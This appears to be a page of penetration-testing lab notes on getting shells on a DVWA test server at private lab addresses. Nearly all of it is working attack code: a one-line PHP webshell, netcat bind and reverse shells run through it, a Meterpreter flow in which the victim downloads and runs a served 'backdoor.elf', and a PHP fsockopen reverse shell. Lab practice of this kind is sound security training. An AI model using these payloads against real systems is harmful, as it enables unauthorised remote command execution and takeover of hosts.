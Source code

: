 # Shells

## Webshell (PHP)
```php
<?php
echo shell_exec($_GET['cmd'] . ' 2>&1');
?>
```
**Example:**  
`http://192.168.100.3/dvwa/hackable/uploads/shell.php?cmd=ls`  
Try `cmd=nc -h` to check whether `-e` option is available.

## Bind Shell
`http://192.168.100.3/dvwa/hackable/uploads/shell.php?cmd=nc -e /bin/bash -lp 1234`  
`nmap -p 1234 192.168.100.3`  
`nc 192.168.100.3 1234`

## Reverse Shell
`http://192.168.100.3/dvwa/hackable/uploads/shell.php?cmd=nc -e /bin/bash 192.168.100.2 1234`  
`nmap -p 1234 192.168.100.2`  
`nc -vv -lp 1234`

## Meterpreter / Payload flow
```
msfpc <TYPE> (<DOMAIN/IP>) (<PORT>) (<CMD/MSF>) (<BIND/REVERSE>) (<STAGED/STAGELESS>) (<TCP/HTTP/HTTPS/FIND_PORT>) (<BATCH/LOOP>) (<VERBOSE>)
```
**Example:**
```
msfpc Linux 192.168.100.2 5678 MSF REVERSE TCP
msfconsole -q -r '/home/kali/Downloads/linux-meterpreter-staged-reverse-tcp-5678-elf.rc'
cp linux-meterpreter-staged-reverse-tcp-5678.elf /var/www/html/backdoor.elf
# On victim:
192.168.100.2 && wget http://192.168.100.2/backdoor.elf
192.168.100.2 && chmod +x backdoor.elf
192.168.100.2 && ./backdoor.elf
```

## Meterpreter session commands
- `sessions -i`  
- `sessions -i 1`  
- `sysinfo`  
- `getuid`  
- `shell`  (to get a native Linux shell)

## If the shell is not interactive
```bash
php -r '$sock=fsockopen("192.168.100.2",4321);exec("/bin/bash -i <&3 >&3 2>&3");'
nc -vv -lp 4321   # Catch the shell - Interactive
```

## Shells : Bad Guys Perspective
Search for `php webshells` (test and upload in a safe lab environment).  
Example webshell to try: `Predator.php` (upload and browse).
